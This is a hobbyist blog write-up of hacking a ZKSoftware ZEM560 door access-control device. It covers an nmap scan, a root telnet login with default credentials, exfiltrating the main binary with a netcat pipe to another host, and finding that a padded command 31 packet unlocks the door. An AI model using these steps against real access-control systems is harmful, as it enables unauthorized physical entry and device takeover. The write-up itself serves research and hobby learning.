

1468195200
Or trying to reverse engineering a access control
Everything started with me trying to get my RaspBerry PI to unlock a door . The door I’m supposed to open has a access control , like that one :
So … that’s a shit/toy-ish/R$2k/access control and it fucking opens doors . How to get my rasp to control it ? No , I can’t just open it and read the UART or something — it costs 2k. I’m going to try to get remote control , NMAP TIME !
$ nmap -sV 10.0.3.-
Yeah , I use fish , I like autocomplete , I don’t memorize commands , judge me. If you don’t get it , if it was bash it would be a * instead of a - w/e .
Starting Nmap 7.12 ( https://nmap.org ) at 2016-07-10 23:15 BRT
Nmap scan report for 10.0.3.117
Host is up (0.094s latency).
Not shown: 994 closed ports
PORT STATE SERVICE VERSION
23/tcp open telnet ZKSoftware ZEM560 access control device (Linux 2.6.24; MIPS)
Or something like that , there is a port missing
Open 23 ! And what the fuck is ZEM560 ? Googling aroung I’ve found that shit has already been pwned : blog.zerial.org/seguridad/vulnerar-la-seguridad-fisica-de-un-control-de-acceso-biometrico && blog.infobytesec.com/2014/07/perverting-embedded-devices-zksoftware_2920.html . Unfortunately they are all about the web panel , which is turned off in my case . But it have a series of default login/password for the telnet and one of them worked . I was going to brute force it , but it worked on the second try , wut .
$ telnet 10.0.3.117Trying 10.0.3.117…Connected to xxxxxxxxxxxxxxxEscape character is '^]'.
Welcome to Linux (ZEM560) for MIPSKernel 2.6.24 Treckle on an MIPSZEM560 login: rootPassword:# iduid=0(root) gid=0(root) groups=0(root)
YEESSSS , root , lol , that was easy. Soooo , what the fucking is running and how to open the FUCKING door ?
# ps PID USER VSZ STAT COMMAND 1 root 3788 S init 2 root 0 SW< [kthreadd] 3 root 0 SW< [ksoftirqd/0] 4 root 0 SW< [events/0] 5 root 0 SW< [khelper] 40 root 0 SW< [kblockd/0] 48 root 0 SW< [ksuspend_usbd] 54 root 0 SW< [khubd] 57 root 0 SW< [kseriod] 75 root 0 SW [pdflush] 76 root 0 SW [pdflush] 77 root 0 SW< [kswapd0] 78 root 0 SW< [aio/0] 624 root 0 SW< [mtdblockd] 657 root 3788 S /bin/sh /etc/init.d/rcS 663 root 0 SW [eth0] 665 root 3852 S telnetd -l /bin/login 700 root 9396 S /mnt/mtdblock/inbiocomm 703 root 18516 S /mnt/mtdblock/main 5570 root 3852 S -sh 5573 root 3920 S /bin/login 5574 root 3852 R ps
“rcS” and “main” looks interesting , I’m gonna check it out .
# cd /mnt/mtdblock/# lsLANGUAGE.E firmware_20160615.log_bak LANGUAGE.S firmware_20160616.log_bak auto.sh firmware_20160619.log_bak custattstate.dat firmware_20160620.log_bak custvoice.dat firmware_20160623.log_bak data firmware_20160625.log_bak drivers firmware_20160702.log_bak dump.txt firmware_20160703.log_bak eerom.txt firmware_20160707.log_bak extlog.dat firmware_20160710.log extuser.dat font firmware_20160411.log_bak getf firmware_20160413.log_bak iengine.lic firmware_20160416.log_bak inbiocomm firmware_20160420.log_bak lconfig.bin firmware_20160422.log_bak lib firmware_20160423.log_bak lost+found firmware_20160426.log_bak main firmware_20160503.log_bak nprog.log firmware_20160507.log_bak number.log firmware_20160511.log_bak oplog.dat firmware_20160520.log_bak options.cfg firmware_20160521.log_bak sms.dat firmware_20160523.log_bak templatev10.dat firmware_20160524.log_bak test.sh firmware_20160525.log_bak transaction.dat firmware_20160527.log_bak udata.dat firmware_20160607.log_bak usbpower.zem500 firmware_20160609.log_bak user.dat firmware_20160610.log_bak wav firmware_20160613.log_bak workcode.dat firmware_20160614.log_bak
SOOOOOO MUUUUUCH THINGS TO LOOK ! ( and so many .log_bak , clean your shit )
# cat options.cfg
TCPPort=4368 ~ShowSecond=0~PrinterFunOn=0ConnectMODEM=0 ~MaxUserFingerCount=10~OutSensorFunOn=0~ProductTime=~SerialNumber=AdmRetry=3 DtFmt=0 NetSpeed=0 HiSpeedNet=8 IPAddress=192.168.1.201 NetMask=255.255.255.0 ~MIFAREID=0~iCLASS=0~iCLASSID=0~iCLASSTYPE=0~RFFPC=1FPRetry=3 PwdRetry=3 HavePowerKey=1 LockPowerKey=0 ~ASFO=1AlwaysShowState=0 ~ShowState=1…etc etc
And it goes on , and on How the fuck I get the “main” binary out of there ?
On my pc :
$ nc -l -p 666 > main
On the very-fucking-expensive-shit :
# cat main | nc 192.168.0.42 666 #No idea what my IP was
And I know that’s a shitty way to transfer files , but it worked , yay. IDA time ? Maybe , but I’m a newbie in Reverse can’t even do the easy ones in the CTFs :’( What I was thinking ? Anyway , gonna leave this alone . The binary are here , if someone want to take a look : main
A week after …
I’ve found the piece of software that controls it : setup_soapAdminCA_V2_1_5.7z

And it has a button called “Liberar Acesso” , Read it “open the fucking door”
You just put the IP and the custom port , which by default is 4370 — that was the port I was talking about — and voilà ! It opens the door , any door!
What is easier ? Sniff the network or reverse the software ? Wireshark , always.

Some TCP , a lot of UDP going on . The connections starts with a
And ends with
 Highlighted part is the data
Highlighted part is the data
Looking around the .pcap it looks like there is two kinds of commands , first one just send a number and has 8 bytes of data :

and the other sends a 0B 00 plus a string:
Googling around again — I should do this more often — I found this piece of gold github.com/dnaextrim/python_zklib . Fucking BIG thank you dnaextrim ! Random dude that reverse that insane custom protocol !
The zkconst.py has a lot of revealed commands :
CMD_CONNECT = 1000 CMD_EXIT = 1001 CMD_ENABLEDEVICE = 1002 CMD_DISABLEDEVICE = 1003 CMD_RESTART = 1004 CMD_POWEROFF = 1005CMD_ACK_OK = 2000 CMD_ACK_ERROR = 2001 CMD_ACK_DATA = 2002CMD_PREPARE_DATA = 1500 CMD_DATA = 1501CMD_USERTEMP_RRQ = 9 CMD_ATTLOG_RRQ = 13 CMD_CLEAR_DATA = 14 CMD_CLEAR_ATTLOG = 15CMD_WRITE_LCD = 66CMD_GET_TIME = 201 CMD_SET_TIME = 202CMD_VERSION = 1100 CMD_DEVICE = 11CMD_CLEAR_ADMIN = 20 CMD_SET_USER = 8 CMD_PREPARE_DATA = 1500 CMD_REFRESHOPTION = 1014 CMD_FREE_DATA = 1502 CMD_RESTART = 1004 CMD_REFRESHDATA = 1013LEVEL_USER = 0 LEVEL_ADMIN = 14
That first UDP packet sends E8 03 as the first byte , which is 59395 in decimal , but 03 E8 (cs.umd.edu/class/sum2003/cmsc311/Notes/Data/endian.html) is 1000 in decimal ! WHICH IS THE FUCKING CMD_CONNECT COMMAND ! Yeah , I got hyped , three days to figure this out
But nothing of “open the door” :’( So I’ve edited one of the zklib’s function to send custom commands :
And tried to send every one of the commands on the pcap to open the door and none worked :’( Even tried to send’em in the same order — I play a lot of CTFs , overthinking is my morning coffe .
There was two commands of the first type that it hasn’t been reversed , 69 and 31 . Send them in my custom function didn’t work :’( After a lot of redbulls and dreaming about the packets , I’ve realized that the 31 command always have 00 00 attached to the final , which is odd . So I tried to attach a bunch of “A” in the end of the packet and IT WORKED ! THE DOOR OPENED ! FUCK YEAH ! weird as fuck , but yeah , done ! Just copy the script to the raspberry and it’s done .
YAAAAAAAAAAAAAAAY ! FIREWORKS !!!
Post Mortem :
1. My first tough was to figure out what to write in some /dev/ , if someones knows how, please comment
2. Probablly that protocol is not so custom and I’m just dumb
3. 66 is the command to make that thing play a sound
4. You can edit a lot of this with root , A LOT
5- I’m n00b , sorry if I get something wrong